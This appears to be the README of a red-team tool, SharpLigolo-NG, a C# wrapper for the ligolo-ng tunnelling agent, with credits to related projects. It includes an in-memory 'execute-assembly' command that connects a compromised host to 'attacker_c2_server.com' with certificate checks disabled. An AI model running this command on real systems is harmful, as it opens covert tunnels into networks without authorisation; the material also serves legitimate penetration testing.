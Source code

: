 # SharpLigolo-NG

A C# wrapper for https://github.com/nicocha30/ligolo-ng

Can be built and executed via `execute-assembly`

```shell
execute-assembly /tmp/SharpLigoloNG.exe -connect attacker_c2_server.com:11601 -ignore-cert
```


# Credits

* [shantanu561993](https://github.com/shantanu561993) - https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a
* [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t) - https://github.com/S3cur3Th1sSh1t/SharpLigolo
